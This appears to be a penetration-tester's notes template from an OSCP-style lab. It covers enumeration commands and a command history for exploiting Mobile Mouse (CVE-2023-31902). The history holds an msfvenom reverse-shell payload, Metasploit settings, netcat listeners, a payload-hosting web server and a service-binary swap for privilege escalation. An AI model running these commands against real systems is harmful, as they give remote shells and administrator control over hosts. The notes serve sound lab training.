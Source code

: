 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- C:\Users\Tim\Desktop\local.txt
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.150.144 --top-ports 1000`
```

```
`sudo nmap -A -T4 -p- 192.168.150.144`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c

https://github.com/blue0x1/mobilemouse-exploit/blob/main/CVE-2023-31902.py

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=80 -f exe -o reverse_80.exe

// python3 31902.py --target 192.168.207.155 --lhost 192.168.45.186 --file reverse_443.exe


// msfconsole
// use exploit/windows/misc/mobile_mouse_rce
// show options
// set RHOSTS 192.168.204.155
// set RPORT 9099
// set LHOST 192.168.45.186
// set LPORT 80
// set PAYLOAD windows/meterpreter/reverse_tcp
// exploit

// python3 -m http.server 8080
// nc -lvnp 80
// python3 31902.py --target 192.168.207.155 --lhost 192.168.45.186 --file reverse_80.exe 

// sudo ifconfig tun0 mtu 1250 
// nc -lvnp 443
// python3 31902.py --target 192.168.207.155 --lhost 192.168.45.186 --file reverse_443.exe 

searchsploit -m 51010.py
line 39 change sleep (0.5) --> sleep(0.1)
fix line break @ line 41
line 50 change sleep (1.2) --> sleep(0.3)
line 54 ADDLINE: sleep(50)

python -m http.server 8080
nc -lvnp 80

python3 51010.py --target 192.168.207.155 --lhost 192.168.45.186 --file reverse_80.exe

//oscp/tim
nc -lvnp 443
cd C:\Program Files\MilleGPG5
move C:\Windows\Temp\reverse_443.exe GPGService.exe
Restart-Service 'GPGOrchestrator'

```